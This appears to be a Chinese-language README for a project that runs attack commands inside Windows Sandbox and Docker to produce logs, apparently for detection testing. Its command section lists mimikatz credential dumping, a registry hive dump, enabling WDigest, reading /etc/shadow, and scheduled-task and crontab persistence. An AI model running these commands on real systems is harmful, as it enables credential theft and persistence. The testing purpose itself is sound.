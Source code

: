# sandbox_test

只需要下載src和test資料夾即可，project環境為windows 10 22H2 pro，需要開啟windows sandbox功能和docker

## 執行code
如果想要用pytest測試的話，使用以下架構:
```
-root(root資料夾不限名稱)
    -src
        -SandboxFiles
            mimikatz.exe
            Sysmon64.exe
            sysmonconfig.xml: 
            (sandbox.wsb): 由code自動產生
            (install_and_run.bat): 由code自動產生
            (log.xml): 由code自動產生
        Dockerfile
        sand.py
        (container_syslog.log): 由code自動產生
    -test
        test_sand_unit.py
        test_sand_integrated.py
```
在root資料夾下執行```pytest -vv --cov -p no:warnings```

如果要執行sand.py，把最後兩行註解取消掉再執行

## 攻擊指令

windows
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
copy %USERPROFILE%\Desktop\SandboxFiles\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles . /H /Y

reg save HKLM\SYSTEM C:\\system.save

reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
     
setlocal enabledelayedexpansion

:: Get the current time
for /f "tokens=1-4 delims=:.," %%a in ("%time%") do (
    set /a HH=%%a, MM=%%b, SS=%%c, FF=%%d
)

:: Add 10 seconds
set /a MM+=1
if !MM! geq 60 (
    set /a MM-=60
    set /a HH+=1
    if !HH! geq 24 set /a HH-=24
)

:: Format the time with leading zeros
if !HH! lss 10 set HH=0!HH!
if !MM! lss 10 set MM=0!MM!
echo !HH!:!MM!
:: Create the scheduled task
schtasks /create /tn "MyTask" /tr "notepad.exe" /sc once /st !HH!:!MM! /f
```

linux
```
whoami
echo 'whoami'> tmp
cp tmp tmp2
sh < tmp2
cat /etc/shadow
echo \"echo hash_value > name.out\" | at now + 1 minute
echo \"*/2 * * * * root whoami > username\" >> /etc/crontab
```

## 有關log

log.xml是windows的log

container_syslog.log是linux的log

另外，執行code後，log的位置分別是```root/src/SandboxFiles/log.xml```和```root/src/container_syslog.log```
